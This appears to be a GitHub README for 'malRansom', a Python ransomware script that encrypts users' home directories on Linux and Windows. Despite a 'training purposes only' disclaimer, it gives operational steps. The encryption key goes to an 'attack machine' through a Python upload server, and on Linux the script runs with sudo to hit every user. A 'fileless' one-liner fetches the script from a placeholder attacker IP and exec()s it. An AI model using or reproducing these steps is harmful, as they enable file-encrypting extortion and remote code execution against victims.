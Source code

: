 # malRansom
Python code that encrypts files in a user's home or users' /home directory. IMPORTANT: In progress!
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption/decryption files have only been tested on Redhat, Ubuntu 22.04, and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run. On Redhat, 3rawm05nar.py may have to be ran twice due to missing packages.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to your attack machine. It highly recommended that you are able to upload files to python3 server before running script.
# Remember
IMPORTANT: Read the comments at the top of the python script before use. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point and a key would have to be generated prior. Windows will only affect the current user's home directory. Linux is ran with sudo and affects all users in /home.
# Windows
python3 .\3raw05nar.py
# Linux
sudo python3 3raw05nar.py
# Python Upload Server
pip3 install uploadserver
Your machine - Example: python3 -m uploadserver 44444
# Fileless Approach
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
# Additional Resources
NetworkChuck

https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s

HTTP/HTTPS python upload server

https://pypi.org/project/uploadserver/

Python simplehttpserver

https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files
